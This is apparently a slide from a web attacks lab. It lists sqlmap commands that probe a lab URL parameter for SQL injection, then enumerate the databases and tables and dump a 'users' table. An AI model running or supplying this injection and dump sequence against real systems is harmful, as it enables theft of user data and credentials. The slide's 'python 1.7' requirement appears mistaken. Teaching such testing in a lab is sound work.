

# Web attacks lab
Examples with SQL MAP: - Need python 1.7 –
 python sqlmap.py -u  http://192.168.67.128/compiler/sql/id.php?id=1
 python sqlmap.py -u  http://192.168.67.128/compiler/sql/id.php?id=1 –dbs
 python sqlmap.py -u  http://192.168.67.128/compiler/sql/id.php?id=1 –tables –D itidb
 python sqlmap.py -u  http://192.168.67.128/compiler/sql/id.php?id=1 –dump –D itidb –T users